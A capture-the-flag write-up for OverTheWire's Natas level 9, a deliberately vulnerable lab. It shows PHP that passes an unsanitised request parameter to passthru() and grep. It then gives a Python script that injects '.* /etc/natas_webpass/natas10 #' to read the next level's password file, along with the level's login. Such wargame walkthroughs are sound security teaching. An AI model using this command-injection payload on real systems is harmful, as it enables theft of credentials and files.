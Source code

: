 <img src="img/Pasted image 20240505093619.png" alt="Example Image" width="1080"/>

[view_source](http://natas9.natas.labs.overthewire.org/index-source.html)

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) 
{    
$key = $_REQUEST["needle"];
}

if($key != "") 
{    
passthru("grep -i $key dictionary.txt");
}
?>
```

As we seen source file , it using `$_REQUEST["needle"]` , we can send that key using post request with parameter as `needle` , again look at the php script , it passing that `key` into `passthru()` [link](https://www.php.net/manual/en/function.passthru.php) , its is php method used to Execute an external program and display raw output , using `grep` in server and getting words from `dictionary.txt` with `-i` case insensitive

we used to `cat /etc/natas/natas_webpass/natas10 #` but nothing got , so we used wild expression in the place of cat like `.*` which refers anything , `#` pound used to ignore remaining cmd , we successfully injected commands in php

```py
import requests
import re

username = 'natas9'
password = 'Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd'

url = 'http://%s.natas.labs.overthewire.org/'%username
url1 = 'http://%s.natas.labs.overthewire.org/index-source.html'%username

response = requests.Session()
response = response.post(url , data={"needle" : ".* /etc/natas_webpass/natas10 #" } , auth=(username,password))
content = response.text
flag = re.findall("/etc/natas_webpass/natas10:(.*)",content)[0]
print(flag)
```

---
